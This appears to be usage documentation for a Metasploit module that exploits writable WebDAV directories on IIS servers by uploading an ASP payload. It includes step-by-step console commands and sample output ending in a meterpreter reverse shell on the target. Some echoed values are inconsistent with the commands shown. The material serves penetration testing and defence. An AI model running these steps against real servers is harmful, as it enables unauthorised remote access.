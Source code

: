 ## Description

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. A WebDAV PUT request is used for uploading file on webdav server. 

**IMPORTANT:** The target IIS machine must meet these conditions to be considered as exploitable: It allows 'Script resource access', Read and Write permission, and supports ASP.

## WebDAV

Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

## Verification Steps

1. Do: ```use exploit/windows/iis/iis_webdav_upload_asp```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set RHOST [IP]```
3. Do: ```set PATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/windows/iis/iis_webdav_upload_asp
msf exploit(iis_webdav_upload_asp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(iis_webdav_upload_asp) > set RHOST 172.16.176.54
RHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set LHOST 172.16.176.56
LHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set path /upload/test.asp
path => /upload/test.asp
msf exploit(iis_webdav_upload_asp) > exploit

[*] Started reverse handler on 172.16.176.56:4444
[*] Uploading 613830 bytes to /upload/test.txt...
[*] Moving /upload/test.txt to /upload/test.asp...
[*] Executing /upload/test.asp...
[*] Sending stage (770048 bytes) to 172.16.176.54
[*] Deleting /upload/test.asp, this doesn't always work...
[!] Deletion failed on /upload/test.asp [403 Forbidden]

meterpreter > getuid
Server username: JUAN-C0DE875735\IWAM_JUAN-C0DE875735
meterpreter >
```

